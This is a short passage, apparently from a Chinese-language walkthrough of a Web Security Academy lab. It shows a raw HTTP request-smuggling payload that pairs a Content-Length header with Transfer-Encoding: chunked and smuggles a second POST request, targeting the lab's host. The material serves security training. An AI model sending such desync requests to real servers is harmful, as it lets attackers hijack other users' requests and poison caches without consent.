 [![](assets/1704418275-0c132421962ee9b21c2426d3f57886ea.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103155829-e1e6fe0e-aa0d-1.png)  
Step 3：随后构造以下请求数据报文

```plain
POST / HTTP/1.1
Host: 0ae000aa04f227c28184f2bb00e80084.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 124
Transfer-Encoding: chunked

0

POST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 200
Connection: close

search=test
```

[![](assets/1704418275-200e735063423643b4df2e6218fab657.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103155855-f18dfe66-aa0d-1.png)
